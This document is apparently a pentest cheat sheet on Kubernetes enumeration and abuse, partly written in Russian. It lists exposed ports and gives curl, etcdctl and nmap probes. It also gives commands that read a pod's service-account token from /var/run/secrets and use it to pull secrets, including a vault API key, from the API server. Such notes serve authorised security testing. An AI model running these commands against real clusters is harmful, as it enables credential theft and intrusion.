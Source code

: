 ```yaml
---
description: Kubernetes Enum/Abuse
---
```


# Kuber

<figure><img src="../../../.gitbook/assets/kuber.jpg" alt=""><figcaption><p>Kubernetes Privilege Escalation</p></figcaption></figure>



## Ports

| Port            | Process        | Description                                                            |
| --------------- | -------------- | ---------------------------------------------------------------------- |
| 443/TCP         | kube-apiserver | Kubernetes API port                                                    |
| 2379/TCP        | etcd           |                                                                        |
| 6666/TCP        | etcd           | etcd                                                                   |
| 4194/TCP        | cAdvisor       | Container metrics                                                      |
| 6443/TCP        | kube-apiserver | Kubernetes API port                                                    |
| 8443/TCP        | kube-apiserver | Minikube API port                                                      |
| 8080/TCP        | kube-apiserver | Insecure API port                                                      |
| 10250/TCP       | kubelet        | HTTPS API which allows full mode access                                |
| 10255/TCP       | kubelet        | Unauthenticated read-only HTTP port: pods, running pods and node state |
| 10256/TCP       | kube-proxy     | Kube Proxy health check server                                         |
| 10249/TCP       | kube-proxy     | metrics and configuration information (EKS)                            |
| 9099/TCP        | calico-felix   | Health check server for Calico                                         |
| 6782-4/TCP      | weave          | Metrics and endpoints                                                  |
| 30000-32767/TCP | NodePort       | Proxy to the services                                                  |
| 44134/TCP       | Tiller         | Helm service listening                                                 |



## Kubelet Api

```
curl -k https://<IP address>:10250/metrics
curl -k https://<IP address>:10250/pods
```

If the response is `Unauthorized` then it requires authentication.

Custom client for kubelet communication - [https://github.com/cyberark/kubeletctl](https://github.com/cyberark/kubeletctl)



**kubelet (Read only)**

```
curl -k https://<IP Address>:10255
http://<external-IP>:10255/pods
```



## etcd API <a href="#etcd-api" id="etcd-api"></a>

```
curl -k https://<IP address>:2379
curl -k https://<IP address>:2379/version
etcdctl --endpoints=http://<MASTER-IP>:2379 get / --prefix --keys-only
```



## NodePort <a href="#nodeport" id="nodeport"></a>

When a port is exposed in all the nodes via a **NodePort**, the same port is opened in all the nodes proxifying the traffic into the declared **Service**. By default this port will be in in the **range 30000-32767**. So new unchecked services might be accessible through those ports.

```
sudo nmap -sS -p 30000-32767 <IP>
```



## Dnscan

utility for enum services inside cluster network by PTR record

[https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e](https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e)

build:

```bash
go build -ldflags "-linkmode external -extldflags '-static -s -w'" -o myapp main.go
```

## Service Account

Check  SA rights&#x20;

```bash
kubectl auth can-i create --list
```

По умолчанию Kubernetes хранит все токены и информацию об учетных записях служб в месте по умолчанию. Перейдите туда, чтобы найти полезную информацию.

```
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

* Теперь мы можем использовать эту информацию для запроса и взаимодействия со службой API Kubernetes с доступными разрешениями и привилегиями.
* Чтобы указать имя хоста внутреннего API-сервера, мы можем экспортировать его из переменных среды.

```
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

* Чтобы установить путь к `ServiceAccount`токену

```
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

* Чтобы установить значение пространства имен

```
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

* Чтобы прочитать `ServiceAccount`токен на предъявителя

```
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
```

* Чтобы указать `ca.crt`путь, чтобы мы могли использовать его при запросе `curl`запросов

```
export CACERT=${SERVICEACCOUNT}/ca.crt
```

* Теперь мы можем изучить API Kubernetes с помощью токена и построенных запросов.

**kubectl**

```bash
kubectl --token=${TOKEN} --server=https://10.233.0.1:443 --insecure-skip-tls-verify=true --namespace=namespace auth can-i --list
```

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

* Чтобы запросить доступные секреты в `default`пространстве имен, выполните следующую команду

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

* Чтобы запросить секреты, специфичные для пространства имен

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

* Получите `k8svaulapikey`пользу от секретов

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```



## Bypass Pod Security Admission

This command can show pods that violate the new PodSecurity

```bash
kubectl label --dry-run=server --overwrite ns --all \
pod-security.kubernetes.io/enforce=baseline
```



### High privileged service without auth

* Longhorn
* [Weave Scope](https://github.com/weaveworks/scope)
